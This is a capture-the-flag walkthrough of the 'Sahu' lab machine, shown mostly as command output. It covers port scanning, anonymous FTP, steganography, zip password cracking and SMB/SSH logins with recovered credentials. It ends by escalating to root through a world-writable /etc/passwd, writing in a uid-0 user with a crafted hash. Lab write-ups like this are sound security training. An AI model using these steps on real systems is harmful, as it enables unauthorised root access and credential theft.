


# Sahu

## Port Scanning

```
t0thkr1s@kali ~> nmap -A -Pn -p- 192.168.1.73
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 06:30 CDT
Nmap scan report for 192.168.1.73
Host is up (0.0012s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             230 Jan 30 13:55 ftp.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.67
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)                                                           
| ssh-hostkey: 
|   3072 e2:78:c5:73:f2:86:cb:cb:02:7f:b6:72:85:61:ac:91 (RSA)
|   256 22:1a:ee:1a:98:4f:32:e7:dc:30:43:52:2c:b2:24:06 (ECDSA)
|_  256 1a:9b:28:b3:ad:58:32:e9:6c:f3:ea:3b:cf:6b:08:ad (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title.
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAHU)
445/tcp open  netbios-ssn Samba smbd 4.10.7-Ubuntu (workgroup: SAHU)
Service Info: Host: SAHU-VIRTUALBOX; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP Enumeration

```
t0thkr1s@kali ~> ftp 192.168.1.73
Connected to 192.168.1.73.
220 (vsFTPd 3.0.3)
Name (192.168.1.73:t0thkr1s): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        133          4096 Jan 30 14:06 .
drwxr-xr-x    2 0        133          4096 Jan 30 14:06 ..
-rw-r--r--    1 0        0             230 Jan 30 13:55 ftp.zip
226 Directory send OK.
ftp> get ftp.zip
local: ftp.zip remote: ftp.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ftp.zip (230 bytes).
226 Transfer complete.
230 bytes received in 0.00 secs (78.6723 kB/s)
ftp> exit
221 Goodbye.
t0thkr1s@kali ~> unzip ftp.zip 
Archive:  ftp.zip
[ftp.zip] ftp.txt password: 
   skipping: ftp.txt                 incorrect password
t0thkr1s@kali ~ [82]>
```

## HTTP Enumeration

```
t0thkr1s@kali ~> dirb http://192.168.1.73

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Mar 17 06:47:02 2020
URL_BASE: http://192.168.1.73/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.73/ ----
==> DIRECTORY: http://192.168.1.73/H/                                                                                                        
+ http://192.168.1.73/index.php (CODE:200|SIZE:194)                                                                                          
+ http://192.168.1.73/server-status (CODE:403|SIZE:277)                                                                                      
                                                                                                                                             
---- Entering directory: http://192.168.1.73/H/ ----
==> DIRECTORY: http://192.168.1.73/H/A/                                                                                                      
                                                                                                                                             
---- Entering directory: http://192.168.1.73/H/A/ ----
==> DIRECTORY: http://192.168.1.73/H/A/R/                                                                                                    
                                                                                                                                             
---- Entering directory: http://192.168.1.73/H/A/R/ ----
                                                                                                                                             
-----------------
END_TIME: Tue Mar 17 06:47:16 2020
DOWNLOADED: 18448 - FOUND: 2
```

Let's complete that to HARYANA.



We got the ZIP password or maybe not... It didn't work. What else do we got?



## Steganography

```
t0thkr1s@kali ~/Downloads> steghide extract -sf Haryana-1-1.jpg 
Enter passphrase: 
wrote extracted data to "file.txt".
t0thkr1s@kali ~/Downloads> cat file.txt 
I have found the password for a zip file but i have forgot
the last part of it, can you find out
     
5AHU** ⏎
t0thkr1s@kali ~/Downloads>
```

## Password Cracking

```
t0thkr1s@kali ~/Downloads> crunch 6 6 -t 5AHU^% > wordlist.txt
Crunch will now generate the following amount of data: 2310 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 330 
t0thkr1s@kali ~/Downloads> head wordlist.txt 
5AHU!0
5AHU!1
5AHU!2
5AHU!3
5AHU!4
5AHU!5
5AHU!6
5AHU!7
5AHU!8
5AHU!9
t0thkr1s@kali ~/Downloads> fcrackzip -u -D -p wordlist.txt ../ftp.zip 


PASSWORD FOUND!!!!: pw == 5AHU#5
t0thkr1s@kali ~/Downloads> cd ..
t0thkr1s@kali ~> unzip ftp.zip
Archive:  ftp.zip
[ftp.zip] ftp.txt password: 
  inflating: ftp.txt                 
t0thkr1s@kali ~> cat ftp.txt 

      USERNAME = sahu
      PASSWORD = sahu14216
t0thkr1s@kali ~>
```

## SMB Enumeration

```
t0thkr1s@kali ~> smbmap -H 192.168.1.73
[+] IP: 192.168.1.73:445        Name: Kristofs-MBP                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        sambashare                                              NO ACCESS       Samba on Ubuntu
        IPC$                                                    NO ACCESS       IPC Service (sahu-VirtualBox server (Samba, Ubuntu))
t0thkr1s@kali ~> smbclient //192.168.1.73/sambashare -U sahu
Enter WORKGROUP\sahu's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jan 30 02:50:23 2020
  ..                                  D        0  Thu Jan 30 01:57:06 2020
  ssh.txt                             N       64  Thu Jan 30 02:50:02 2020

                10253588 blocks of size 1024. 4039208 blocks available
smb: \> get ssh.txt
getting file \ssh.txt of size 64 as ssh.txt (3.7 KiloBytes/sec) (average 3.7 KiloBytes/sec)
smb: \> exit
t0thkr1s@kali ~> cat ssh.txt 
   ssh users list
   USERNAME = haryana
   PASSWORD = hralltime
```

## Gaining Access

```
t0thkr1s@kali ~> ssh haryana@192.168.1.73
haryana@192.168.1.73's password: 
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-18-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


111 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable

*** System restart required ***
Last login: Tue Feb  4 18:05:07 2020 from 192.168.43.111
haryana@sahu-VirtualBox:~$ id
uid=1001(haryana) gid=1001(haryana) groups=1001(haryana)
```

## Privilege Escalation

```
[+] Interesting writable files owned by me or writable by everyone                                                             
/dev/mqueue                                                                                                                                   
/dev/mqueue/linpeas.txt
/dev/shm
/etc/passwd
/home/haryana
...
```

```
haryana@sahu-VirtualBox:~$ openssl passwd -1 -salt pwned pwned
$1$pwned$V5p85o3GJTqCdLKXQNm2T0
haryana@sahu-VirtualBox:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:106:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:107:114::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:108:115:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:109:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:110:116:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:111:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:113:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
kernoops:x:114:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:116:122::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:117:123:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
whoopsie:x:118:124::/nonexistent:/bin/false
colord:x:119:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:120:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:121:126::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:122:127:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:123:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:124:129:Gnome Display Manager:/var/lib/gdm3:/bin/false
sahu:x:1000:1000:sahu,,,:/home/sahu:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:125:133:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
haryana:x:1001:1001:,,,:/home/haryana:/bin/bash
sshd:x:126:65534::/run/sshd:/usr/sbin/nologin
lightdm:x:127:134:Light Display Manager:/var/lib/lightdm:/bin/false
haryana@sahu-VirtualBox:~$ nano /etc/passwd
haryana@sahu-VirtualBox:~$ cat /etc/passwd
...
sahu:x:1000:1000:sahu,,,:/home/sahu:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:125:133:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
haryana:x:1001:1001:,,,:/home/haryana:/bin/bash
sshd:x:126:65534::/run/sshd:/usr/sbin/nologin
lightdm:x:127:134:Light Display Manager:/var/lib/lightdm:/bin/false
pwned:$1$pwned$V5p85o3GJTqCdLKXQNm2T0:0:0:/root:/bin/bash
haryana@sahu-VirtualBox:~$ su pwned
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
linpeas.sh
# cd
sh: 3: cd: can't cd to /bin/bash
# cd /root
# ls
root.txt
# cat root.txt
   GREATE YOU FINISH THIS TASK
                               CONGRATS!!!!!!!!!!!!
     TELL ME ON TWITTER  @VivekGautam09
#
```


